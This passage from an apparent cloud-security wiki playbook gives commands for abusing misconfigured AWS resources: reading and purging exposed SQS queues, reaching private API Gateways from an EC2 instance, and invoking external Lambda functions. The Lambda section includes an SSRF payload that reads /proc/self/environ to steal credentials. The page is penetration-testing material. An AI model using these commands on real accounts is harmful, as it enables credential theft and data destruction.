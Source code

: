 ### SQS Queues[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#sqs-queues "Permanent link")
`# Send message aws sqs send-message \     --queue-url https://sqs.$region.amazonaws.com/123456789012/example-queue \     --message-body "Your message"  # Receive messages # This will remove the message from the queue aws sqs receive-message --queue-url https://sqs.$region.amazonaws.com/123456789012/example-queue  # Delete message # Message will be deleted anyway when # running receive-message in default implementations aws sqs delete-message \     --queue-url https://sqs.$region.amazonaws.com/123456789012/example-queue \     --receipt-handle $big_string_from_receive_message_call  # This will delete all items in the queue aws sqs purge-queue --queue-url https://sqs.$region.amazonaws.com/123456789012/example-queue`

### Private API Gateways[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#private-api-gateways "Permanent link")
A private API Gateway is private in the sens that it can't be accessed from outside the AWS's network. People can mistake a private API Gateway as being accessible only from their AWS account, which is a common misconception.
`# Example API Gateway details api_id=example123 region=eu-central-1 stage=prod endpoint=fetch  # Try to access the API gateway from your host/VM # It should not work curl https://$api_id.execute-api.$region.amazonaws.com/$stage/$endpoint nslookup $api_id.execute-api.$region.amazonaws.com  # We'll start an EC2 instance and perform the # request from there # The instance must be in the same region as the target API # Create a security group that allows all inbound traffic if # you don't already have one and use it here # The AMI is for the latest Amazon Linux image at the moment of writing this article # Save the instance ID for later aws --region $region ec2 run-instances --security-group-ids sg-example1234567 --instance-type t2.micro --image-id ami-0b5673b5f6e8f7fa7  # Check if you have VPC endpoint com.amazonaws.$region.execute-api aws --region $region ec2 describe-vpc-endpoints  # Skip this if the VPC endpoint already exist # Create the VPC Endpoint # Should take around 1-2 minutes to be available # Run either 'aws ec2 describe-instances' or # 'aws ec2 describe-vpcs' or 'aws-describe-subnets' in order # to get the information about the VPC id along with the subnet ids # You have to use the same VPC as the one of the previous EC2 # Create a security group that allows all inbound traffic if # you don't already have one and use it here aws ec2 create-vpc-endpoint \     --vpc-id vpc-example1234567 \     --vpc-endpoint-type Interface \     --service-name com.amazonaws.$region.execute-api \     --subnet-ids subnet-example1234567,subnet-example1234567,subnet-example1234567 \     --security-group-ids sg-example1234567 \     --private-dns-enabled  # Connect to the instance aws ec2-instance-connect ssh --os-user root --instance-id $instance_id`

`# Now we should be able to resolve and invoke the private API Gateway # Check DNS resolution nslookup $api_id.execute-api.$region.amazonaws.com  # Invoke the API curl https://$api_id.execute-api.$region.amazonaws.com/$stage/$endpoint`

_Delete the instance and the VPC Endpoint when you're done. VPC Endpoints can get expensive._

### Lambda Functions[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#lambda-functions "Permanent link")
`function_name=example-function # Invoke function via AWS CLI # Because the function is from an external account, the # whole ARN must be specified # You can invoke a certain version of the function by adding its number at the end # e.g. arn:aws:lambda:$region:123456789012:function:$function_name:1 aws lambda invoke --function-name arn:aws:lambda:$region:123456789012:function:$function_name \     --payload '<input>'  # If the function is vulnerable to SSRF you might # be able to exfiltrate the access credentials by reading # the contents of /proc/self/environ # For this you need to specify --cli-binary-format # This is can be used as a persistence technique aws lambda invoke --function-name arn:aws:lambda:$region:123456789012:function:$function_name \     --payload '{"queryStringParameters":{"url":"file:///proc/self/environ"}}' \      --cli-binary-format raw-in-base64-out output.txt  # Invoke the function by its URL # Just because the Lambda Function can be invoked # by anyone, doesn't mean it will have a public URL # There is no known way to reverse the function URL # to get the function ARN or vice-versa curl https://examplexample12345678901234567890exa.lambda-url.$region.on.aws/?url=file:///proc/self/environ > output.txt`
